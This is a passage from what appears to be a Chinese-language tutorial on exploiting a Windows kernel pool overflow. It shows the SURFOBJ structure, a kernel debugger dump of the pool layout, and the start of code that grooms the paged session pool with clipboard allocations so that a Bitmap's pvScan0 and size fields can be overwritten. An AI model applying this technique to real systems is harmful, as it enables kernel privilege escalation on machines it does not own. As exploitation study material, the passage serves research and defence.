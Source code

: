   
  
第二个成员是SURFOBJ结构体，该结构体保存了紧跟对象头后面的像素数据的相关信息，定义如下：  
```
typedef struct tagSIZE {
    LONG cx;
    LONG cy;
} SIZE,*PSIZE,*LPSIZE;
 
typedef SIZE SIZEL;
 
typedef struct _SURFOBJ {
  DHSURF  dhsurf;
  HSURF  hsurf;
  DHPDEV  dhpdev;
  HDEV  hdev;
  SIZEL  sizlBitmap;
  ULONG  cjBits;
  PVOID  pvBits;
  PVOID  pvScan0;
  LONG  lDelta;
  ULONG  iUniq;
  ULONG  iBitmapFormat;
  USHORT  iType;
  USHORT  fjBitmap;
} SURFOBJ;
```  
  
  
  
其中sizlBitmap中的cx和cy分别指定了像素数据的宽和高，由调用的CreateBitmap的第一和第二个参数决定。像素数据的大小则保存在了cjBits，当第三个参数cPlanes为1，第四个参数cBitPerPel为8时，该值就是cx和cy相乘得到，当第四个参数cBitPerPel为32时，该值就是cx * cy * 4。pvScan0则指向了像素数据的起始地址，该地址跟在对象头其后。关键的数据是sizlBitmap和pvScan0，此时查看上面的溢出后的数据情况可以看出，这些值并没有被覆盖为理想的值。  
```
1: kd> dd 0xfe640ce8
fe640ce8  fe640d10 00000001 00000000 00000000
fe640cf8  ffffffff 00000000 00000100 00000000        // 申请的0x18的数据和下一内存块的POOL_HEADER
fe640d08  00000001 00000001 fe640d38 00000001       // BASEOBJ结构体数据
fe640d18  00000000 00000001 ffffffff 00000000       // SURFOBJ结构体前0x10的数据
fe640d28  00000100 00000000 00000001 00000001       // cx, cy, cjBits, pvBits的数据
fe640d38  fe640d60 00000001 00000000 00000002       // 0xfe640d38为pvScan0的数据
fe640d48  ffffffff 00000000 00000100 00000000
fe640d58  00000001 00000001 fe640d88 00000001
```  
  
  
  
因此，需要通过垫片，也就是在申请的内存块和BitMap对象中间填入一些"垃圾"数据，来让漏洞点的写入操作可以将BitMap对象的关键成员修改为理想数据。这里通过设置剪切板的方式来增加垫片，设置剪切板的数据的函数为SetClipboardData函数，函数定义如下：  
```
HANDLE SetClipboardData(UINT uFormat,
                        HANDLE hMem);
```  
  
  
  
在不调用OpenCliboard并清空剪切板数据的前提下SetClipboardData函数分配的剪切板数据对象会一直存在于分页会话池中，所以不用担心因为覆盖操作而导致内存回收时产生错误。通过剪切板来实现垫片的代码如下，通过该代码会产生dwSize + 0xC + 0x8大小的内存块：  
```
BOOL CreateClipboard(DWORD dwSize)
{
    BOOL bRet = TRUE;
    PCHAR pBuffer = NULL;
    HGLOBAL hMem = NULL;
 
    pBuffer = (PCHAR)malloc(dwSize);
    if (!pBuffer)
    {
        ShowError("malloc", GetLastError());
        bRet = FALSE;
```
